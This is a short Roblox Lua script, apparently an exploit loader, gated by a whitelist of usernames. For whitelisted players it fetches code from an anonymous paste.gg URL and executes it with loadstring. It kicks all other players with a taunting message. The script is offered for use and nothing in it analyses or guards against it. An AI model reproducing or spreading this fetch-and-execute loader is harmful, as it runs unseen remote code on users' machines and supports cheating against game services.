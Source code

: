 -- gr1u updated whitelist

local WhitelistedUsernames = {
    ["Dragonblox836"] = true,
    ["widebodymhki"] = true,
    ["torsotapper"] = true,
    ["SoftX_ff"] = true,
    ["Dragonblox836"] = true
    
}

local Player = game.Players.LocalPlayer

local function isWhitelisted(player)
    local username = player.Name
    return WhitelistedUsernames[username] == true
end

if isWhitelisted(Player) then
    loadstring(game:HttpGet("https://paste.gg/p/anonymous/ec746110a98147efaefe0dd955e38264/files/65275454bab040e7a396cb4f19ca31f9/raw"))()
else
    game.Players.LocalPlayer:Kick("BlackListed - Restless.dreams DOESNT fwu😂.")
end
